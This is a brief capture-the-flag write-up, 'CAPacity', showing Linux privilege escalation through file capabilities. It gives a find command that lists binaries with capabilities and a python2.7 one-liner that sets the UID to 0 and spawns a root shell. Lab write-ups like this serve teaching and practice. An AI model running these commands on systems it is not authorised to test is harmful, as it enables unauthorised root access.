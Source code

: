 # CAPacity
- Based on the title, the possible approach is Linux Capabilities. You can read more about [here](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities)
- Find the binaries with capabilities as follows:
```sh
find / -type f -exec /sbin/getcap {} 2>/dev/null \;
```
- Get root user using [this](https://gtfobins.github.io/gtfobins/python/#capabilities).
```sh
/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

